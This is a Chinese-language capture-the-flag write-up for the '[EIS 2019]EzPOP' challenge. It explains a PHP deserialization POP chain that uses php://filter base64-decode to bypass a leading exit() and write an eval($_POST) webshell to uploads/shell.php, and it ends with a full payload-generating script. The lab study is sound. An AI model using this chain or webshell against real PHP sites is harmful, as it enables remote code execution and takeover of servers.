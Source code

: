 # \[EIS 2019]EzPOP

## \[EIS 2019]EzPOP

## 考点

* php://filter/write绕过“死亡exit”

## wp

给了源码，返回头看到PHP版本7.3。其实这里不给源码也可以做，用`arjun`可以探测参数，存在参数`src`，传入就可以看到源码了。

![](<../../.gitbook/assets/image (33) (1).png>)

给了源码，一点一点看。首先定义两个类，然后GET的src参数，上传目录`uploads/`，最后反序列化`data`

![](<../../.gitbook/assets/image (20) (1).png>)

确定是反序列化，然后找`__destruct()`作为入口，可以锁定`class A`，然后`$this->autosave`为`false`，然后不断向上调用

![](<../../.gitbook/assets/image (11) (1).png>)

`getForStorage()`那一大块可以写成一段代码，这段代码意思举个例子解释，比如`array("0"=>array("path"=>"a"))`，处理之后就是`array("0"=>"a")`，感觉有点多此一举。再json\_encode一下，变成一个字符串。在`getForStorage()`后执行的是 `$this->store->set()`，由此跳转到`class B`

```php
    function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);
        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }
        return $contents;
    }
  $cache = array("0"=>array("path"=>"a"));
  $cleaned = cleanContents($cache);
  var_dump(json_encode([$cleaned, "2"]));
```

到这可以先写一下Ａ类的序列化

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'tmp1';
      $this->expire= 'tmp2';
      $this->store= $store;
    }
}
$b = new B();
$a = new A($b);
$a->cache = array("tmp3");
$a->complete = "tmp4";
```

然后看`class B`的set函数，接收的三个参数分别是`$name`，`$value`，`$expire`，分别与`$a->key`，`json_encode([$a->cache, "2"])`，`$a->expire`相关联。然后把`$expire`转化为整型，用`$this->options['prefix']`拼接`$name`，处理`$filename`，这里感觉也没啥用，对`$filename`和`$expire`处不处理并没有多大影响，更像是从哪个项目里复制出来的。

![](<../../.gitbook/assets/image (12).png>)

然后看一下`$value`的处理，它的值应该是类似于这种`[[{"path":"a"}],2]`，或者是这种`[["a"],2]`，把它作为参数传给`$this->serialize()`，在这个函数里面可以执行任意函数，但是没有函数的参数是像`$value`那种，所以这里最好是保持空过，`$serialize`就可以是`trim`或者`strval`之类的函数

```php
    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }
        $serialize = $this->options['serialize'];
        return $serialize($data);
    }
```

接着往后看，这里的if是是否进行数据压缩，`$this->options['data_compress']`置为false，跳过这一步。`sprintf('%012d', $expire)`是把`$expire`左补齐12位，如果`$expire`是11，那么这个结果就是`000000000011`。再看这两行行，就是典型的php://filter的妙用，绕过“死亡exit”。`$data`为要写入的shell，`$filename`为`php://filter/write=convert.base64-decode/resource=shell.php`

```php
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            $data = gzcompress($data, 3);
        }
        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);
        if ($result) {
            return true;
        }
        return false;
```

在`$data =` 那一行中，可以被base64识别的是`php000000000011exit`这19个字符，要在shell中补字符直到总长度符合base64解码规范

```php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+");
$a->complete = 2;
```

如果这样生成代码，得到的value是`[["PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+"],2]`，前面是21个字符，中间补3个，后面补3个，最后cache是`array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa")`

完整代码

```php
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;
    
    public function __construct($store){
      $this->key = 'uploads/shell.php';
      $this->expire= 1;
      $this->store= $store;
    }
}
class B{}
$b = new B();
$b->options['data_compress'] = false;
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=";
$b->options['serialize'] = "trim";

$a = new A($b);
/* <?php eval($_POST[1]);?>*/
$a->cache = array("aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+aaa");
$a->complete = 2;

echo urlencode(serialize($a));
```

![](<../../.gitbook/assets/image (32) (1) (1).png>)

## 小结

1. [谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)
2. [\[2020 新春红包题\]1](../php-zong-he/2020-xin-chun-hong-bao-ti-1.md)是它的增强版
